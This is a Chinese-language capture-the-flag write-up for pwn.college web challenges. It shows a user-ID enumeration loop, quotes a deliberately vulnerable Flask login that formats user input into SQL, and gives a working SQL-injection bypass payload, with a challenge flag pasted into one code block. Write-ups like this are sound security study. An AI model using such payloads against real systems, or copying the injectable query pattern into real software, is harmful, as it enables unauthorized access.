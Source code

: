 利用脚本
```python
pwn.college{YZT44ipzNzZZPUSIPj4X76UIKcy.dlDOzMDL0czNxEzW}
headers = {
    "host":'challenge.localhost',
}
for i in range(100):
    user = i
    response = requests.get('http://challenge.localhost:80/', headers=headers, params={"user": user})
    print(response.text)

```


## level4
这一关用到了session，你没有办法直接更新session。因为session是存储到服务器端的，但是这一关username 和password被拼接在字符串中了。所以可以直接利用sql注入。
源码

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])

```

利用代码
```python
login_data = {
    'username': 'flag',
    'password': '" OR "1"="1'
}
response = requests.post('http://challenge.localhost:80/', data=login_data)
print(response.text)

```
